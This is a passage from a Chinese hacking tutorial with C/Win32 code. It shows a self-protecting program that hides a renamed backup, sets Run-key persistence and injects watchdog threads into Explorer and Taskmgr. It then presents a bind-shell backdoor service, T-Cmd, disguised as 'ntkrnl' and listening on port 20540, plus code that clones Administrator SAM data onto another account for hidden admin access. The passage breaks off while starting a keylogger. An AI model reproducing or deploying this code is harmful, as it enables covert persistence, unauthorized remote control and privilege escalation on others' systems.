主线程需要完成的任务有 3 个，它们分别是准备工作、创建辅助线程和程序主要功能的实现。准备工作当然是为程序运行过程中所需要的一些部件做好准备，其中包括文件复制和保存。一般情况下是把可执行文件复制到系统目录下，当然，为了防止意外删除，我们可以将程序的可执行文件备份，不过要注意修改一些属性（文件类型，大小，日期，属性），这样就不容易被发现与我们的可执行文件有关联了。创建辅助线程包括两个线程，一个驻留在主进程体内，另一个通过创建远程线程驻留到其他正在运行的进程体内。这两个线程的功能就是监视其他进程或线程的运行情况，如果出现异常立即恢复。程序的主要功能就不用多说了，想干什么就干什么，一般是一些不想让用户关闭的程序。

驻留主进程体内的线程同时观察注册表和远程进程的情况。它实时查询注册表里 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 键下相关可执行文件的键值，如果被删除就立即将其添加上。这就是对注册表的实时监视，使得每次开机时都会运行我们的可执行文件。而另一个功能则是监视驻留在远程进程体内辅助线程的运行情况，如果该线程被关闭，立即通过创建远程线程将被关闭的线程驻留到特定的进程内。如果你知道了辅助线程是驻留在哪个进程内的，你就可以将这个远程进程关闭掉。但是我们还是可以将辅助线程驻留到其他的远程进程内。至于选定哪个远程进程，完全视你的心情而定。

驻留在远程进程体内的辅助线程则监视主进程的运行情况，如果主进程被 Kill 了，它会确认程序的可执行文件是否也被删除掉了。如果系统目录下的可执行文件不存在了，则用我们备份的文件恢复可执行文件，然后再重新启动程序，这样你在任务管理器里怎么也删除不了主进程。由于我们是创建远程线程，所以必须把线程的代码和线程所需要的参数都复制到远程进程的地址空间里。这是因为在 Windows 2000/xp 环境下，访问其他进程地址空间是违规的。我们把代码和参数复制过去后，线程就完全在远程进程的地址空间运行了。我们可以看到，通过两个辅助线程，就很难把主进程关闭或删除掉。

现在我们就以一个诱鼠器为例，来分析三线程的程序结构，如下图：



其中 T-mouse 为主进程/主线程，remote 为创建的远程线程，watch 为本地的辅助监视线程，Registry 为注册表文件。T-mouse 创建 remote 和 watch 两个线程，remote 监视 T-mouse 主进程，watch 监视注册表文件和 remote 线程。

#### 三、核心代码分析

本文的程序仅针对 Windows 2000/XP 操作系统，程序中使用的 UNICODE 编码。测试环境：Windows 2000 + SP2 + VC6.0。整个程序分主线程 main，本地辅助监视线程 watch，远程线程 remote，还包括获得进程 ID 的 processtopid 和创建远程线程的 createremote 两个自定义函数。

#### 1. 主线程：main

```
GetSystemDirectory(syspath,MAX_PATH);
// 获得操作系统的系统目录;
FindFirstFile(tname,&fdata);
// 查询系统目录下的 T-mouse.exe 是否存在;
CopyFile(curname,tname,TRUE);
// 如果系统目录下没有，在将正在运行的程序复制到系统目录下;
FindClose(ffhandle);
// 在查询完毕后，关闭相关句柄; CreateFile(kname,GENERIC_WRITE,FILE_SHARE_WRITE,NULL,
OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);
// 打开系统目录下的备份文件 kernel.dll;
SetFileTime(fchandle,&ftime,NULL,&ftime);
// 修改 kernel.dll 的创建时间，修改时间; SetFileAttributes(kname,FILE_
ATTRIBUTE_READONLY|FILE_ATTRIBUTE_HIDDEN| FILE_ATTRIBUTE_SYSTEM );
// 设置 kernel.dll 的属性为只读，系统及隐藏;
CreateThread(NULL,0,watch,(LPVOID)rthread,0,NULL);
// 创建驻留在主进程内的辅助监视线程
```

#### 2. 本地辅助监视线程：watch

```
RegOpenKeyEx(HKEY_LOCAL_MACHINE,rgspath,0,KEY_QUERY_VALUE,&hkey);
//以查询方式打开注册表的 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\nCurrentVersion\Run;
RegQueryValueEx(hkey,_T("T-mouse"),NULL,NULL,(LPBYTE)lpdata,&dwbufen);
//查询是否存在 T-mouse 的键值;
RegOpenKeyEx(HKEY_LOCAL_MACHINE,rgspath,0,KEY_WRITE,&hkey);
//如果没有相关键值,就以写方式再次打开注册表;
RegSetValueEx(hkey,_T("T-mouse"),NULL,type,(const byte *)wtname,dwbufen);
//写入我们想要的东西,系统每次启动都会运行我们的可执行文件;
GetExitCodeThread(wethread,&exitcode);
//获得远程线程的运行情况,看是否为 STILL_ACTIVE,如果不是则创建远程线程;
```

#### 3. 远程线程：remote

```
tOpenProcess(PROCESS_ALL_ACCESS,FALSE,erp->rpmousepid);
//以所有可能的访问方式打开主进程,以便监视主进程的运行情况;
tWaitForSingleObject(erp->rpprocesshandle,INFINITE);
//等待直到主进程结束;
tWinExec(erp->rpwinexecname,0);
//重新启动我们的可执行文件;
```

#### 4. 获得进程 ID：processtopid

```
EnumProcesses(lpidprocesses,sizeof(lpidprocesses),&cbneeded);
//列举所有的进程
OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ,FALSE,lpidprocesses[i]);
//以查询信息和读取的方式打开进程
EnumProcessModules(hprocess,&hmodule,sizeof(hmodule),&cbneeded);
//获得进程模块的句柄
GetModuleBaseName(hprocess,hmodule,normalname,sizeof(normalname));
//获得特定模块的名字,以备比较
```

#### 5. 创建远程线程：createremote

```
OpenProcess(PROCESS_CREATE_THREAD |PROCESS_VM_OPERATION|PROCESS_VM_WRITE,FALSE,
remotepid);
//PROCESS_CREATE_THREAD for CreateRemoteThread
//PROCESS_VM_OPERATION for VirtualAllocEx
//PROCESS_VM_WRITE for WriteProcessMemory
VirtualAllocEx(rphandle,NULL,cb,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
//在远程进程中分配空间,以备将线程代码置入其中;
WriteProcessMemory(rphandle,remotethr,(LPVOID)remote,cb,NULL);
//将远程线程 remote 的代码写入到远程进程的地址空间中
WriteProcessMemory(rphandle,remotepar,(LPVOID)&rp,cb,NULL);
//将远程线程所需的参数也写入到远程进程的地址空间中
CreateRemoteThread(rphandle,NULL,0,(LPTHREAD_START_ROUTINE)remotethr,(LPVOID)remotepar,
0,NULL);
// 创建远程监视线程
```

#### 四、小结与后记

我们已经看到，创建三线程就是为了更好地保护程序自身不被关闭和删除。两个辅助线程相互实时监视，如果监视对象被关闭了，就重新创建线程或进程。其实，在程序中我们选择的远程进程驻体为 Explorer.exe 和 Taskmgr.exe。在通常情况下，如果用户知道了远程线程的驻体为资源管理器后，就会打开任务管理器来结束 Explorer，这时我们再把远程线程注入到任务管理器中。也就是说，只要 Explorer 或 Taskmgr 有一个存在，就不可能结束主进程。如果有其他 Kill 进程的工具，你就可以将其关闭掉，只要资源管理器和任务管理器均不存在时，就没有驻体来维持远程进程。不过，如果我们选择的远程进程为随机的，这就不容易发现了；如果我们选择的远程进程为系统文件（如 smss.exe 会话管理器），那么你是不会安全地结束远程线程，除非系统崩溃。

为何不用其他的工具将其关闭并删除呢？你也可以进入到 DOS 或 Safe 模式下，将系统目录下的可执行文件删除，然后重启系统。这时，就不会自动运行程序了，然后将注册表里 RUN 键下的相关键值，系统目录下的备份文件及首次运行的可执行文件删除就彻底清楚了。在调试程序时，为了对远程线程的运行情况有所了解，我们使用了工具 Dbgview.exe。

#### 五、附源代码（光盘）



### 4.4 Windows 服务与后门原本如此

#### 一、序言

Windows 下的服务程序都遵循服务控制管理器 (SCM) 的接口标准，它们会在登录系统时自动运行，甚至在没有用户登录系统的情况下也会正常执行，类似与 UNIX 系统中的守护进程。它们大多是控制台程序，不过也有少数的 GUI 程序。本文所涉及到的服务程序仅限于 Windows 2000/XP 系统中的一般服务程序，不包含 Windows 9X。

#### 二、Windows 服务简介

服务控制管理器拥有一个在注册表中记录的数据库，包含了所有已安装的服务程序和设备驱动服务程序的相关信息。它允许系统管理员为每个服务自定义安全要求和控制访问权限。Windows 服务包括 4 大部分：服务控制管理器，服务控制程序，服务程序和服务配置程序。

##### 1. 服务控制管理器 (SCM)

服务控制管理器在系统启动的早期由 Winlogon 进程启动，可执行文件名是“Admin$\System32\Services.exe”，它是系统中的一个 RPC 服务器。因此，服务配置程序和服务控制程序可以在远程操纵服务。它包括以下几方面的信息：已安装服务数据库：服务控制管理器在注册表中拥有一个已安装服务的数据库，它被用来有服务控制管理器和程序添加、删除、配置服务程序。在注册表中数据库的位置为：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services。它包括很多子键，每个子键的名字就代表一个对应的服务。数据库中包括：服务类型，启动类型，错误类型，执行文件路径，依赖信息选项，可选用户名与密码。

自动启动服务：系统启动时，服务控制管理器启动所有“自启”服务和相关依赖服务。服务的加载顺序：顺序装载组列表：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\ServiceGroupOrder；指定组列表：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\GroupOrderList；每个服务所依赖的服务程序。在系统成功引导后会保留一份LKG(Last-Know-Good)的配置信息位于：HKEY_LOCAL_MACHINE\SYSTEM\ControlSetXXX\Services。如果需要启动服务，用户可以使用服务控制面板程序来启动一项服务。服务控制程序也可以使用StartService来启动服务。

服务控制管理器会进行下面的操作：
获取账户信息，登录服务项目，创建服务为悬挂状态，分配登录令牌给进程，允许进程执行。

服务记录列表：
这里每项服务在数据库中都包含了下面的内容：服务名称、开始类型、服务状态、依赖服务列表指针。

服务控制管理器句柄：
服务控制管理器支持句柄类型访问对象：已安装服务数据库、服务程序、数据库的锁开状态。

## 2. 服务控制程序(SCP)

服务控制程序可以执行对服务程序的开启，控制和状态查询功能：

### 开启服务：

如果服务的开启类型为SERVICE_DEMAND_START，就可以用服务控制程序来开始一项服务。在开始服务的初始化阶段服务的当前状态为：SERVICE_START_PENDING，而在初始化完成后的状态就是：SERVICE_RUNNING。

### 向正在运行的服务发送控制请求：

控制请求可以是系统默认的，也可以是用户自定义的。标准控制代码如下：

| 操作 | 控制代码 |
| --- | --- |
| 停止服务 | SERVICE_CONTROL_STOP |
| 暂停服务 | SERVICE_CONTROL_PAUSE |
| 恢复已暂停服务 | SERVICE_CONTROL_CONTINUE |
| 获得更新信息 | SERVICE_CONTROL_INTERROGATE |

##### 3. 服务程序

一个服务程序可能拥有一个或多个服务的执行代码。我们可以创建类型为SERVICE_WIN32_OWN_PROCESS的只拥有一个服务的服务程序，而类型为SERVICE_WIN32_SHARE_PROCESS的服务程序却可以包含多个服务的执行代码。

##### 4. 服务配置程序

编程人员和系统管理员可以使用服务配置程序来更改、查询已安装服务的信息，当然也可以通过注册表函数来访问相关资源。

## 三、Windows服务与编程

Windows服务编程包括几方面的内容。

##### 1. 服务控制程序

执行服务控制程序的相关函数前，我们需要获得一个服务对象的句柄，方式有两种：由 OpenSCManager来获得一台特定主机的服务控制管理器数据库的句柄；使用OpenService或CreateService 函数来获得某个服务对象的句柄。

启动服务：要启动一个服务，服务控制程序可以使用StartService来实现。如果服务控制管理器数据库被锁定，那需要等待一定的时间然后再次测试StartService函数。当然，也可以使用QueryServiceLockStatus 函数来确认数据库的当前状态。在启动成功完成时，那么dwCurrentState参数将会返回 SERVICE_RUNNING值。

服务控制请求：服务控制程序使用ControlService函数来发送控制请求到正在运行的服务程序。它会向控制句柄函数发送一个特定的控制命令，可以是系统默认的，也可以是用户自定义的。而且，每个服务都会确定自己将会接收的控制命令列表。使用QueryServiceStatus函数时，在返回的dwControlsAccepted参数中表明服务程序将会接收的控制命令。所有的服务都会接受SERVICE_CONTROL_INTERROGATE命令。

##### 2. 服务程序

一个服务程序内可以包含一个服务或多个服务的执行代码，但是它们都拥有固定的3个部分：服务main 函数、服务ServiceMain函数和服务Control Handler函数。

服务main函数：服务程序通常是以控制台的方式存在的，所以它们的入口点都是main函数。在服务控制管理器开始一个服务程序时，会等待StartServiceCtrlDispatcher函数的执行。如果服务类型是 SERVICE_WIN32_OWN_PROCESS，就会立即调用StartServiceCtrlDispatcher函数的执行；如果服务类型是SERVICE_WIN32_SHARE_PROCESS，通常在初始化所有服务之后再调用它。 StartServiceCtrlDispatcher函数的参数就是一个SERVICE_TABLE_ENTRY结构，它包含了进程内所有服务的名称和服务入口点。

服务ServiceMain函数：函数ServiceMain是服务的入口点。在服务控制程序请求一个新的服务启动时，服务控制管理器启动一个服务，并发送一个开始请求到控制调度程序，而后控制调度程序创建一个新线程来执行ServiceMain函数。ServiceMain须执行以下的任务：调用RegisterServiceCtrlHandler函数注册一个 HandlerEx函数来向服务发送控制请求信息，返回值是服务状态句柄用来想服务控制管理器传送服务状态。初始化后调用SetServiceStatus函数，设置服务状态为SERVICE_RUNNING。最后，就是执行服务所要完成的任务。

服务Control Handler函数：每个服务都有一个控制句柄HandlerEx函数。它会在服务进程从服务控制程序接收到一个控制请求时被控制调度程序所调用。无论何时在HandlerEx函数被调用时，都要调用 SetServiceStatus函数向服务控制管理器报告它当前的状态。在用户关闭系统时，所有的控制句柄都会调用带有SERVICE_ACCEPT_SHUTDOWN控制代码的SetServiceStatus函数来接收SERVICE_CONTROL_SHUTDOWN控制代码。

##### 3. 服务配置程序

服务配置程序可以更改或查询服务的当前配置信息。在调用服务配置函数之前，必须获得一个服务对象的句柄，当然我们可以通过调用OpenSCManager，OpenService或CreateService函数来获得。

创建、删除服务：服务配置程序使用CreateService函数在服务控制管理器的数据库中安装一个新服务，它会提供服务的名称和相关的配置信息并存储在数据库中。服务配置程序则使用DeleteService函数从数据库中删除一个已经安装的服务。

#### 四、服务级后门技术

在进入某个系统后，我们往往会为自己留下一个或多个后门，以便今后的访问。如果我们上传一个后门程序到远程系统上后，在系统重启之时，总是希望后门仍然存在。那么，将后门程序创建成服务程序应该是个不错的想法，这就是利用了服务程序自动运行的机制，当然在Windows2000的任务管理器里也很难结束一个服务程序的进程。

创建一个后门，它常常会在一个端口监听，以方便我们使用TCP/UDP协议与远程主机建立连接，所以我们首先需要在后门程序里创建一个监听的端口，为了数据传输的稳定与安全，我们可以使用TCP协议。

那么，我们如何才能模拟一个Telnet服务似的后门呢？我想大家都清楚，如果在远程主机上有一个Cmd是我们可以控制的，也就是我们可以这个Cmd里执行命令，那么就可以实现对远程主机的控制了，至少可以执行各种通常的系统命令了。启动一个Cmd程序的方法很多，有WinExec、ShellExecute、CreateProcess等，但我们只能使用CreateProcess，因为WinExec和ShellExecute实在太简单了。在使用CreateProcess时，我们要用到它的重定向标准输入、输出的选项功能，把在我们本地主机的输入重定向输入到远程主机的Cmd进程，并且把远程主机Cmd进程的标准输出重定向到我们本地主机的标准输出。这就需要在后门程序里使用CreatePipe创建两个管道来实现进程间的数据通信(Inter-Process Communication, IPC)。当然，还必须将远程主机上Cmd的标准输入和输出在本地主机之间进行传送，我们选择TCP协议的send和recv函数。在客户结束访问后，我们还要调用TerminateProcess来结束我们创建的Cmd进程。

#### 五、关键函数分析

本文相关程序T-Cmd v1.0是一个服务级的后门程序，适用平台为Windows2000/XP。它可自动为远程/本地主机创建服务级后门，而无须使用任何额外的命令，支持本地/远程模式。重启后，程序仍然自动运行，监听端口20540/tcp。

##### 1. 自定义数据结构与函数

```
typedef struct
{
HANDLEhPipe;
//为实现进程间通信而使用的管道;
SOCKETsClient;
//与客户端进行通信时客户端的套接字;
}SESSIONDATA, *PSESSIONDATA;
//重定向Cmd标准输入/输出时使用的数据结构;

typedef struct PROCESSDATA
{
HANDLEhProcess;
//创建Cmd进程时获得的进程句柄;
DWORD dwProcessId;
//创建Cmd进程时获得的进程标识符;
structPROCESSDATA *next;
//指向下一个数据结构的指针;
}PROCESSDATA, *PPROCESSDATA;
//在客户结束访问或删除服务时，为关闭所有的Cmd进程而创建的数据结构;

void WINAPI CmdStart(DWORD, LPTSTR *);
//服务程序中的"ServiceMain":注册服务控制句柄，创建服务主线程;
void WINAPI CmdControl(DWORD);
//服务程序中的"HandlerEx":处理接收到的控制命令，删除已创建的Cmd进程;
DWORD WINAPI CmdService(LPVOID);
// 服务主线程，创建服务监听端口，在接受客户连接时，创建重定向 Cmd 标准输入/输出线程；
DWORD WINAPI CmdShell(LPVOID);
// 创建管道与 Cmd 进程，输入/输出 Cmd 线程；
DWORD WINAPI ReadShell(LPVOID);
// 重定向 Cmd 的输出，读取信息后发送到客户端；
DWORD WINAPI WriteShell(LPVOID);
// 重定向 Cmd 的输入，接收客户端的信息输入到 Cmd 进程；
BOOL ConnectRemote(BOOL, char *, char *, char *);
// 如果选择远程模式，则须与远程主机建立连接，注须提供管理员权限的用户名与密码；
void InstallCmdService(char *);
// 复制传送文件，打开服务控制管理器，创建或打开服务程序；
void RemoveCmdService(char *);
// 删除文件，停止服务后，卸载服务程序；
```

##### 2. 服务程序相关函数

```
SERVICE_TABLE_ENTRY DispatchTable[] =
{
    {"ntkrnl", CmdStart},
    // 服务程序的名称和入口点；
    {NULL, NULL}
    //SERVICE_TABLE_ENTRY 结构必须以 "NULL" 结束；
};
StartServiceCtrlDispatcher(DispatchTable);
// 连接服务控制管理器，开始控制调度程序线程；
ServiceStatusHandle=RegisterServiceCtrlHandler("ntkrnl", CmdControl);
// 注册 CmdControl 函数为 "HandlerEx" 函数，并初始化；
ServiceStatus.dwCurrentState = SERVICE_RUNNING;
SetServiceStatus(ServiceStatusHandle, &ServiceStatus);
// 设置服务的当前状态为 SERVICE_RUNNING；
hThread=CreateThread(NULL, 0, CmdService, NULL, 0, NULL);
// 创建服务主线程，实现后门功能；
WaitForSingleObject(hMutex, INFINITE);
// 等待互斥量，控制全局变量的同步使用；
TerminateProcess(lpProcessDataHead->hProcess, 1);
// 终止创建的 Cmd 进程；
hSearch=FindFirstFile(lpImagePath, &FileData);
// 查找系统目录下服务程序的文件是否已经存在；
GetModuleFileName(NULL, lpCurrentPath, MAX_PATH);
// 获得当前进程的程序文件名；
CopyFile(lpCurrentPath, lpImagePath, FALSE);
// 复制文件到系统目录下；
schSCManager=OpenSCManager(lpHostName, NULL, SC_MANAGER_ALL_ACCESS);
// 打开服务控制管理器数据库；
CreateService(schSCManager, "ntkrnl", "ntkrnl", SERVICE_ALL_ACCESS,
SERVICE_WIN32_OWN_PROCESS, SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, "ntkrnl.
exe", NULL, NULL, NULL, NULL, NULL);
// 创建服务、参数包括名称、服务类型、开始类型、错误类型及文件路径等；
schService=OpenService(schSCManager, "ntkrnl", SERVICE_START);
// 如果服务已经创建，则打开服务；
StartService(schService, 0, NULL);
//启动服务进程;
StartService(schService, 0, NULL);
//查询服务当前状态;
ControlService(schService, SERVICE_CONTROL_STOP, &RemoveServiceStatus);
//控制服务状态;
DeleteService(schService);
//卸载服务程序;
DeleteFile(lpImagePath);
//删除文件;
```

##### 3. 后门程序相关函数

```
hMutex=CreateMutex(NULL, FALSE, NULL);
//创建互斥量;
hThread=CreateThread(NULL, 0, CmdShell,(LPVOID)&sClient, 0, NULL);
//创建处理客户端访问的重定向输入输出线程;
CreatePipe(&hReadPipe, &hReadShell, &saPipe, 0);
CreatePipe(&hWriteShell, &hWritePipe, &saPipe, 0);
//创建用于进程间通信的输入/输出管道;
CreateProcess(lpImagePath, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &lpStartupInfo,
&lpProcessInfo);
//创建经重定向输入输出的 Cmd 进程;
hThread[1]=CreateThread(NULL, 0, ReadShell,(LPVOID*)&sdRead, 0, &dwSendThreadId);
hThread[2]=CreateThread(NULL, 0, WriteShell,(LPVOID *)&sdWrite, 0, &dwReayThreadId);
//创建处理 Cmd 输入输出的线程;
dwResult=WaitForMultipleObjects(3, hThread, FALSE, INFINITE);
//等待线程或进程的结束;
ReleaseMutex(hMutex);//释放互斥量;
PeekNamedPipe(sdRead.hPipe, szBuffer, BUFFER_SIZE, &dwBufferRead, NULL, NULL);
//从管道中复制数据到缓冲区中，但不从管道中移出;
ReadFile(sdRead.hPipe, szBuffer, BUFFER_SIZE, &dwBufferRead, NULL);
//从管道中复制数据到缓冲区中;
WriteFile(sdWrite.hPipe, szBuffer2Write, dwBuffer2Write, &dwBufferWritten, NULL);
//向管道中写入从客户端接收到的数据;
dwErrorCode=WNetAddConnection2(&NetResource, lpPassword, lpUserName,
CONNECT_INTERACTIVE);
//与远程主机建立连接;
WNetCancelConnection2(lpIPC, CONNECT_UPDATE_PROFILE, TRUE);
//与远程主机结束连接;
```

#### 六、附录

T-Cmd v1.0 源代码见光盘。

## 4.5 用C实现克隆账号

为了程序的通用性，我选择的是用标准C来编写的。下面首先要介绍的是克隆账号的实现，与注册表HKLM下的SAM键的关系密不可分，网上那些教程大多是针对注册表的这项的操作而已。说到这里，你可能已经猜到了，没错，WIN32的API中就为我们提供了非常强大的RegAPI，专门用来操作注册表，在下面的程序中我会做出详细解释。

现在，先要讲讲SAM数据库的结构。SAM数据库位于注册表HKLM\SAM\SAM下，默认是system权限完全控制（administrator都看不到的哦！）。你可以在“开始”->“运行”中输入“regedt32.exe”打开32位注册表编辑器，并对HKLM\SAM \SAM下的键设置适当权限查看SAM中的内容。还有要说明的是，为了程序能在多数系统上运行，最好能把你的这个程序写成一个服务，因为服务就具有system权限，不过服务的写法不在本文的讨论范围内，这里我只是说明一下，而且服务那部分的相关代码我已给出。

数据库的\Domains\Account\Users下就是各个账号的信息。其下的子键就是各个账号的SID相对标志符（RID）。比如000001F4，每个账号下面有两个子项，F和V。其中，\Names\下是用户账号名，每个账号名只有一个默认的子项。项中类型不是一般的注册表数据类型，而是指向标志这个账号的RID，比如其下的Administrator，类型为0x1F4，于是前面的000001F4就对应着账户名administrator的内容。项目V中保存的是账户的基本资料、用户名，、用户全名(full name)、所属组、描述、密码hash、注释，是否可以更改密码、账户启用、密码设置时间等。项目F中保存的是一些登录记录，比如上次登录时间、错误登录次数等。

首先，我们要将RID为1F4的系统内置管理员账号的相关信息导出，在手动克隆时，我们可以直接用注册表编辑器导出，存为文件。而且，这很好地模拟实现了对RID为1F4的系统内置管理员账号的相关信息导出。请看以下代码：

```
HKEY hkeyRoot, hkeyUser;
DWORD Type=REG_BINARY, sizeF=1024*2, sizeV=1024*10, ret;
LPBYTE lpDataF, lpDataV;
lpDataF = (LPBYTE) malloc(1024*2);// 这里要注意的是分配的空间必需足够大，应为F和V下的数据量是很大的
lpDataV = (LPBYTE) malloc(1024*10);
ZeroMemory(lpDataF, 1024*2);
ZeroMemory(lpDataV, 1024*10);
ret= RegOpenKeyEx(HKEY_LOCAL_MACHINE, // 打开的根键名
"SAM\SAM\Domains\Account\Users\000001F4", // 打开的子键路径
0, // 保留，必需为0
KEY_ALL_ACCESS, // 允许所有的访问类型
&hkeyRoot);
if(ret==ERROR_SUCCESS) ;
else
{
printf("open key FAIL\n\r");
return 0;
}
//RegQueryValueEx 用来查询指定的值的内容，下面将有详细的说明
ret = RegQueryValueEx( hkeyRoot, // 一个已打开的键的句柄
"F", // 值的名称
NULL, // 保留，必须为NULL
&Type, // 指向一个用来保存类型的缓冲区地址
lpDataF, // 指向一个用来保存值的数据的缓冲区地址
&sizeF // 指向一个用来声明lpData 参数大小的DWORD 型数据的地址.
);
if(ret==ERROR_SUCCESS) ;
else
```

```
{
printf("Query key FAIL\n\r");
return 0;
}
ret = RegQueryValueEx( hkeyRoot,
"V",
NULL,
&Type,
lpDataV,
&sizeV
);
if(ret==ERROR_SUCCESS) ;
else
{
printf("Query key FAIL\n\r");
return 0;
}
```

这里主要用到的API就是RegQueryValueEx，用来查询指定的值的内容，并可以保存到一个缓冲区里，其原型为：

```
LONG RegQueryValueEx( HKEY hKey, // 一个已打开的键的句柄
LPCTSTR lpValueName, // 值的名称
LPDWORD lpReserved, // 保留，必须为NULL
LPDWORD lpType, // 指向一个用来保存类型的缓冲区地址
LPBYTE lpData, // 指向一个用来保存值的数据的缓冲区地址
LPDWORD lpcbData // 指向一个用来声明lpData 参数大小的 DWORD 型数据的地址
);
```

前面说的将RID为1F4的系统内置管理员账号的相关信息导出，实际上就是将其中的F和V项的数据导出就可以了，所以前面用到的两个RegQueryValueEx就是分别用来保存F和V项的数据的。

下一步：将1F4的系统内置管理员账号的相关信息导入到你想克隆的账户里。怎么做呢，同样很简单，先看代码：

```
char user[4]; // 这个是要求用户输入的要克隆账户的RID，如何得到RID，下面将说到。
char CloneUserKey[100];
strcpy(CloneUserKey, "SAM\\SAM\\Domains\\Account\\Users\\00000"); // 设定要克隆的键
strcat(CloneUserKey, user); // 添加要克隆的键的RID
ret = RegOpenKeyEx( HKEY_LOCAL_MACHINE,
CloneUserKey,
0,
KEY_ALL_ACCESS,
&hkeyUser);
if(ret==ERROR_SUCCESS) ;
else
{
printf("open key FAIL\n\r");
return 0;
}
```

```
//RegSetValueEx,用来设定指定的值的内容,下面将有详细的说明
ret= RegSetValueEx( hkeyUser, //一个已打开的键的句柄
"F", //值的名称
0, //保留,必须为NULL
REG_BINARY, //用来声明将设定的值的类型
lpDataF, //指向一个用来保存值的数据的缓冲区地址
sizeF); //用来声明lpData参数大小的DWORD型数据
if(ret==ERROR_SUCCESS) ;
else
{
printf("set key FAIL\n\r");
return 0;
}
ret= RegSetValueEx( hkeyUser,
"V",
0,
REG_BINARY,
lpDataV,
sizeV);
if(ret==ERROR_SUCCESS) ;
else
{
printf("set key FAIL\n\r");
return 0;
}
if(ret==ERROR_SUCCESS)
printf("clone SUCCESS\n\r");
else
{
printf("clone FAIL\n\r");
return 0;
}
RegCloseKey(hkeyRoot);
RegCloseKey(hkeyUser);
return 1;
```

这里,主要用到的API就是RegSetValueEx,用来设定指定的值的内容,其原型为:

```
LONG RegSetValueEx (
HKEY hKey, //一个已打开的键的句柄
LPCTSTR lpValueName, //值的名称
DWORD Reserved, //保留,必须为NULL
DWORD dwType, //用来声明将设定的值的类型
CONST BYTE *lpData, //指向一个用来保存值的数据的缓冲区地址
DWORD cbData //用来声明lpData参数大小的DWORD型数据
);
```

以上是把导出的信息用RegSetValueEx写入到你想克隆的用户的相应键值下,就一个API就搞定了,是不是很简单呢?

如何得到对应用户的RID，同样用代码来说明：

```
c
char set[100];//此处是你设定的要访问的键的路径
HKEY hkey;
DWORD Type=0, ret;
char szBuff[10];//保存RID
ret= RegOpenKeyEx(
	HKEY_LOCAL_MACHINE,
	set,
	0,
	KEY_ALL_ACCESS,
	&hkey
);
if(ret==ERROR_SUCCESS) ;
else
{
printf("open key FAIL\n\r");
return 0;
}
//RegQueryValueEx，这里是用他来查询对应键的键类型，下面将有详细的说明
RegQueryValueEx(
	hkey, //一个已打开的键的句柄
	NULL, //值的名称
	NULL, //保留，必须为NULL
	&Type, //指向一个用来保存类型的缓冲区地址
	NULL, //指向一个用来保存值的数据的缓冲区地址
	NULL //指向一个用来声明lpData参数大小的DWORD型数据的地址
);
wprintf(szBuff, "%X\n\r", Type);
printf("%s", szBuff);
return 0;
```

还记得前面我说的RegQueryValueEx吗？它可不是光用来查询键值的哦，这里就是用它来查询对应键的键类型。

“每个账号名只有一个默认的子项，项中类型不是一般的注册表数据类型，而是指向标志这个账号的RID。”

```
c
LONG RegQueryValueEx(
	HKEY hKey, //一个已打开的键的句柄
	LPCTSTR lpValueName, //值的名称
	LPDWORD lpReserved, //保留，必须为NULL
	LPDWORD lpType, //指向一个用来保存类型的缓冲区地址
	LPBYTE lpData, //指向一个用来保存值的数据的缓冲区地址
	LPDWORD lpcbData //指向一个用来声明lpData参数大小的DWORD型数据的地址
);
```

这里要注意的是，应为查询的是默认的键值，那么键值名那里就要用NULL，然后用一个&Type来保存键类型就可以，一个属于你的克隆工具就诞生了

附:Ex-Service.txt:一个服务程序的源代码,一旦启动会将Guest账号克隆为administrator。
Clone--Code.txt:一个克隆工具的源代码,需要自己用regedt32把SAM键及其子键设置为administrator可以访问才能使用。

### 4.6 打造自己的键盘记录软件

键盘记录软件的原理之一是使用钩子截获键盘消息,钩子可以实现下面几个作用:

- 把截获到的消息复制一份自己保留,再把原消息原封不动发出去;
- 把截获到的消息扣留;
- 把截获到的消息改变后发出去。

为了不使原来的程序出现错误,我们采用第一条作用。分两步实现:钩子的制作和钩子的使用。笔者所用的编译环境VC6.0+Windows 2000。

#### 一、钩子的制作

1、使用应用程序向导生成MFC AppWizard (dll) 工程,工程名为:KeyBoardDLL。选择Regular DLL with MFC statically linked,其他默认。
2、KeyBoardDLL.h中“#include "resource.h"”下声明我们要输出的函数接口,请添加以下3行代码:

```
#define DllExport _declspec(dllexport)
